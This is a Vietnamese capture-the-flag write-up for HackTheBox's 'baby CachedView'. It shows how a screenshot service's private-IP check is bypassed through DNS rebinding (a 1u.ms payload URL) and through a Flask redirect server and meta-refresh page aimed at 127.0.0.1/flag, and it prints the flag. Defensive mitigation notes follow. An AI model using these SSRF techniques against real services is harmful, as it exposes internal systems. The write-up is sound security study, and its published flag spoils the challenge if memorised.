






# baby CachedView (HTB)
---

## Tổng quan
Trang web có chức năng nhận URL input từ người dùng và chụp ảnh màn hình trang web được URL chỉ đến.

## Phân tích mã nguồn

Trang web có 3 endpoints:
- `/`: trả về trang chủ



- `/cache`: nhận URL từ người dùng thông qua POST request và chạy chức năng chụp màn hình. Trước khi chụp thì code kiểm tra rằng URL không được trỏ tới localhost và các private network range.



Trong hàm chụp màn hình `serve_screenshot_from`:





- `/flag`: trả về ảnh chứa flag nếu người gọi là từ trong nội bộ.

## Phân tích lỗ hổng

Ở đây trang web có lỗ hổng liên quan tới lớp lỗ hổng **TOCTOU (Time-of-Check to Time-of-Use)** khi mà code resolve hostname để lấy IP của trang web trước để kiểm tra có hợp lệ hay không. Rồi sau đó mới cho bot truy cập vào trang web đó ở sau (khi này query DNS với cùng hostname có thể trả về IP khác).

Tận dụng việc bot truy cập trang web do người dùng gửi tới, ta có thể điều hướng bot tới các endpoints nhạy cảm chỉ được mở trong nội bộ (do bản thân con bot cũng nằm trong mạng lưới nội bộ). ==> `Server-side request forgery`



Như vậy nếu như thỏa mãn lần kiểm tra IP đầu tiên, trong lần bot truy cập trang web, IP được DNS trả về trỏ tới nội bộ thì ta vẫn có thể truy cập nội bộ bình thường.

## Khai thác

Ở đây, mình sử dụng kĩ thuật `DNS Rebinding` với 2 cách chính:

- `Cách 1`: Sử dụng dịch vụ hỗ trợ debug SSRF - DNS Rebinding: [http://1u.ms/](http://1u.ms/)

**Payload**: `http://make-1.2.3.4-rebind-127.0-0.1-rr.1u.ms/flag`

**Giải thích payload**: `make-<IP1>-rebind-<IP2>-rr.1u.ms`: trang web sẽ trả về `IP1` nếu như trong 5s gần nhất chưa có DNS query tới, nếu không thì trả `IP2`. Điều này bypass được filter và lấy được flag bởi vì:
- **DNS Resolver** sẽ chỉnh tham số **TTL (Time-to-live)** của IP trở nên rất ngắn, (gần như bằng 0).
- **TTL (Time-to-live)** là thời gian mà IP phân giải từ tên miền (hostname) được phép lưu trữ trong bộ nhớ để sử dụng luôn cho sau này mà không cần gọi tới DNS nữa, giảm tải cho DNS Resolver. Tuy nhiên khi chỉnh TTL rất ngắn (=0), mỗi lần truy cập trang web, IP luôn hết hạn, hệ thống luôn phải hỏi lại DNS cái hostname này có địa chỉ IP là gì.
- Chính vì vậy, trong lần hỏi IP address lần 1 ở `is_inner_ipaddress` thì DNS sẽ trả về IP bên ngoài, còn lần sau khi chụp ảnh sẽ trả về IP nội bộ.

Tuy nhiên, việc sử dụng dịch vụ bên ngoài là khá phụ thuộc, trong nhiều trường hợp web trên không hoạt động, mình sẽ sử dụng cách thứ 2 đó là `Redirect`:

Mình sẽ host một server sử dụng python: `python3 -m http.server 8000`

Tuy nhiên, nếu viết một file html chứa Javascript để chuyển hướng thông qua `window.location` hay `location.href` thì sẽ không được bởi vì bot được tắt tính năng chạy Javascript như ở trên.

```javascript
options.preferences.update(
        {
            'javascript.enabled': False
        }
    )
```

Vì thế, mình viết một mini server chạy bằng Flask, trả về `Header Location` để chuyển hướng khi bot truy cập hoặc trả về một file html có chức năng redirect ở thẻ `<meta>` mà không cần dùng tới JS. [Script ở đây](assets/py.py)

**Server**

```python
from flask import Flask,render_template,redirect

app = Flask(__name__)
@app.route('/')
def default():
    #return redirect('http://127.0.0.1/flag')               # this also works
    return "",302,{"Location":"http://127.0.0.1/flag"}

@app.route('/index.html')
def index():
    return render_template('index.html')

if __name__ == '__main__':
    app.run('0.0.0.0',port=8000)
```

**File HTML**
```html
<html>
    <head>
    <noscript>
        <meta http-equiv="refresh" content="0;url=http://127.0.0.1/flag">
    </noscript>
    </head>
</html>
```

Mình sẽ host server dùng python3, rồi dùng cloudflared để có một đường dẫn public để bot có thể truy cập tới máy cá nhân của mình.

Sau khi có được đường dẫn do cloudflared cung cấp thì trỏ tới `/` hoặc `/index.html`. Cách nào cũng hoạt động

**Giải thích payload**: 
- Vì mình dùng cloudflared để public localhost, nên khi DNS phân giải tên miền ra IP, chắc chắn đó không phải IP thuộc IP nội bộ nên việc qua được filter `is_inner_ipaddress` là tất nhiên. 
- Khi bot truy cập url, IP vẫn được trả về IP cũ (IP của mình) chứ không phải IP nội bộ. Tuy nhiên thì do con bot nằm trong cùng mạng lưới với server, nên khi gặp thông báo chuyển hướng tới `http://127.0.0.1/flag` thì nó follow và trả về nội dung flag.



> Flag: ***HTB{reb1nd1ng_y0ur_dns_r3s0lv3r_0n3_qu3ry_4t_4_t1m3}***

## Các cách phòng chống kiểu lỗi TOCTOU (DNS Rebinding) [Note học tập]

### 1. Resolve DNS 1 lần duy nhất và dùng IP đó luôn

Sai (dễ dính TOCTOU)

```javascript
// Check
dns.lookup(hostname)

// Use
http.get("http://" + hostname)
```
Vì `http.get` sẽ resolve DNS lại một lần nữa

```javascript
const dns = require("dns");
const http = require("http");

dns.lookup(hostname, (err, address) => {
    // check IP ở đây
    if (isPrivate(address)) return;

    // dùng IP luôn, KHÔNG dùng hostname nữa
    http.get({
        host: address,
        headers: { Host: hostname } // nếu cần virtual host
    });
});
```
**Nguyên tắc**: Resolve ra IP thì dùng IP đó, không resolve lại hostname

### 2. Chặn toàn bộ IP internal
Block các dải IP
```
Range	                                Meaning
127.0.0.0/8	                            localhost
10.0.0.0/8	                            private
172.16.0.0/12	                        private
192.168.0.0/16	                        private
169.254.0.0/16	                        link-local
::1	                                    IPv6 localhost
fc00::/7	                            IPv6 private
```

### 3. Disable redirect

Tắt redirect, ví dụ điển hình là cách làm ở trên. Nguyên nhân cũng được giải thích ở trên.

Nếu buộc phải cho phép redirect thì luôn kiểm tra IP trước khi follow redirect.

### 4. Cache DNS result

Để tránh attacker đổi IP liên tục:

- Resolve 1 lần
- Cache IP trong vài phút
- Không resolve lại ngay

### 5. Whitelist domain (nếu có thể)

Ví dụ

```javascript
const allowed = ["api.mycompany.com"];
if (!allowed.includes(hostname)) block();
```
